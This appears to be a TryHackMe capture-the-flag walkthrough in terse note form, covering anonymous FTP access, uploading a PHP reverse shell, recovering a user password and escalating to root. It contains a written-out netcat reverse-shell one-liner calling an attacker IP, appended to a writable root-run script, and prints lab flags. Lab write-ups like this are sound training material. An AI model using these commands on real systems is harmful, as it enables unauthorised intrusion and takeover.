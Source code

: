 #found anonymous login in ftp port

#got 2 files a note and a jpg image file

#note:
	Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

#possible username found:
	maya

#enumerated directories on webpage

#found the ftp folder

#used the PUT command to add the reverse-shell.php in the ftp folder:
	put reverse-shell.php

#execute it using the /files folder found on the webpage

#found a reciepie.txt:
	Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.

#also found a folder incident in /

#contains a suspicious.pcap file

#moved it to /ftp/files so i can download on localmachine

#found pass for lennie:
	c4ntg3t3n0ughsp1c3.

#found user flag:
	THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

#found concern.txt in Documents folder:
	I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie

#found list.txt in Documents folder:
	Shoppinglist: Cyberpunk 2077 | Milk | Dog food

#found note.txt in Documents folder:
	Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.

#found starter_list.txt in Scripts folder:
	empty

#found a script called planner.sh:
	#!/bin/bash
	echo $LIST > /home/lennie/scripts/startup_list.txt
	/etc/print.sh

#looked over to /etc/print.sh

#writeable

#added a reverse shell line to print.sh
	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.252.17 9001 >/tmp/f" >> /etc/print.sh

#used the command:
	sh /etc/print.sh

#got root!

#root flag:
	THM{f963aaa6a430f210222158ae15c3d76d}